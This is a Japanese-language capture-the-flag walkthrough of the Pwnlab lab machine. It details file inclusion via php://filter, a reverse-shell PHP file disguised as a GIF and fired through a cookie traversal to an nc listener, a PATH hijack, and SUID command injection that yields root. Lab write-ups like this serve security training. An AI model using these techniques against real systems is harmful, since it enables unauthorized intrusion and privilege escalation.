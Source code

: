 ## Pwnlab
### ポートスキャンまでいつもと同じ
- 80, 111, 3306
- ポートのサービスを注意
### MySQLにアクセスするができない
- `mysql -u root -p -h 192.168.56.109`

### gobusterで隠しディレクトリを探す
- config.php,index.php,upload.phpが見つかる

### webサイトにアクセスする
- 何かをアップロードできるサイトがある。まず何とかログインできるようにする。攻略の基本として、サイトに何かアップロードできそうなら、シェルコードをアップロードしてリバースシェルを狙う
- loginページのリンクが`/?page=login`となっているので、ディレクトリトラバーサル攻撃を試してみる
- `../../../../etc/passwd`など、何も出てこないエラーが出てこないので何かはできる
- `http://192.168.56.109/config.php`にアクセスするが、白紙のページで何もない

### PHPラッパーストリームでユーザ名とパスワードを取得
- PHPラッパーストリームでパスワードやユーザ名を取得できることができるかもしれない、PHPラッパーストリームとは裏で動いているコードを見ることができる。`Hack tricks`というサイトで`php://filter`で検索するといろいろ出てくるので次のをコピーする
- `view-source:http://192.168.56.109/?page=php://filter/convert.base64-encode/resource=config`
- `PD9wa~8+`をコピーする
- `echo -n 'ペースト' | base64 -d`
- これでユーザ名とパスワードがわかる

### MySQLにアクセス
- `mysql -u root -p -h $IP`
- `show databases;`
- `use Users;`
- `show tables;`
- `select * from users;`
- ユーザ名とパスワードが出てくるので全部コピーして、pass.txtを作って、貼り付ける
- 見るとわかるが、これはBase64でencodeされてあるのでデコードする

### ブラウザでログイン
- kentで接続、パスワード`JWzXuBJJNy`

### アップローダへ攻撃
- php-reverse-shell.phpをアップロードする。このファイルは環境と設置を同時に行うものである
  - `cp /usr/share/webshells/php/php-reverse-shell.php evil.php`
  - そしたらvimで開けて、リバースシェルのアドレスを書き換える、上の方に$IPというのがあるから自分のアドレスに書き換える
  - `$IP = '192.168.56.?';  // CHANGE THIS`
  - この時にポート番号もチェックしておく
- これをアップロードするとplease upload images onlyとエラーになる。要は画像しかアップロードしかできないってこと。


### 偽の画像ファイルを作る
- vimでevil.phpを開けて、一番上に次のキーワードを書く、これでこのファイルはgif画像に騙すことができる
  - `GIF89a;`
- 次にファイルの拡張子を変える
  - `mv evil.php evil.gif` 
- これでファイルはgifファイルになったコマンドで確認してみる
  - `file evil.gif`
- このファイルをサイトにアップロードする
- `http://192.168.56.?/upload`を見てファイルがあるのを確認するが、名前が変わっているのがわかる。
- これはbase64に変換されているので、このファイルの名前をコピーしてメモしておく

### 新しいターミナルを開けて待ち受ける
- `nc -nlvp 1234`

### 偽の画像ファイルでアップロード攻撃
- ここからはBurpsuiteのブラウザを使う。また初めからログインし直す。ここはリバースシェルの発火に当たる
- `intercept on`にしてファイルをuploadする。Burpのリクエストヘッダを書き直す。Cookieの横にlangというのを付け足す
- `Cookie: PHPSESSID=?????; lang=../upload/1b7d~~~~8255.gif`
- BurpのForwardボタンを押すとncの待受にプロンプトが返ってくる

### kentでシステム内の探索
- `uname a`
- kaneユーザに切り替える
- `su kane`パスワード`iSv5Ym2GRo`
  
### kaneでシステム内の探索
- homeに移動
- ls -la
  - msgmikeファイルがある、SUIDファイルであることもわかる
- msgmikeを調べる
  - file ,ltrace, strace, strings
- msgmikeコマンドはcatコマンドを実行しているだけ、しかしmsg.txtは読み込めない
### PATHハイジャック
- /tmpに移動する
- `echo "/bin/bash" > cat`
- `export PATH=/tmp:PATH`
- `./msgmike`
- mikeに切り替えれる

### 権限昇格
- SUIDを探す
- `./msg2root unko`を実行すると単にunkoと表示するだけ
- `./msg2root $(/bin/bash -p)`
- rootになれる

### flagの取得
- `cat /root/flag`
